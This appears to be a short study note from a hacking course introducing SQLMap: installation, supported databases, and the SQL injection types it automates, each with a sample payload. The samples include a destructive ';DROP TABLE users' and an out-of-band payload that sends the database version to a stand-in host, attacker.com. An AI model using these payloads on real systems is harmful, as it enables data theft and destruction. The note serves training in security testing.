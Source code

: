 # SQLMap Overview
--------

- SQLMap is a common tool that is used for automating the process of detecting and exploiting SQL Injection vulnerabilities.

- Installation
```bash
sudo apt install sqlmap
```

- Confirm the installation
```bash
python sqlmap.py
```

## Supported Databases
SQLMap has the largest support for DBMSes of any other SQL exploitation tool. SQLMap fully supports the following DBMSes:

![sqlmap-supported-db](https://raw.githubusercontent.com/hhphu/images/main/HTB/SQLMap/sqlmap-supported-db.png)

## Supported SQL Injection Types
- SQLMap supports the following types of SQL Injection:
	- B: Boolean-based blind `AND 1=1`
	- E: Error-based `AND GTID_SUBSET(@@version,0)`
	- U: Union query-based `UNION ALL SELECT 1, @@version,3`
	- S: Stacked queries `;DROP TABLE users`
	- T: Time-based blind `AND 1=IF(2>1,SLEEP(5),0)`
	- Q: Inline queries `SELECT (SELECT @@version) from`
	- Out-of-band SQL Injection `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\README.txt'))`
		
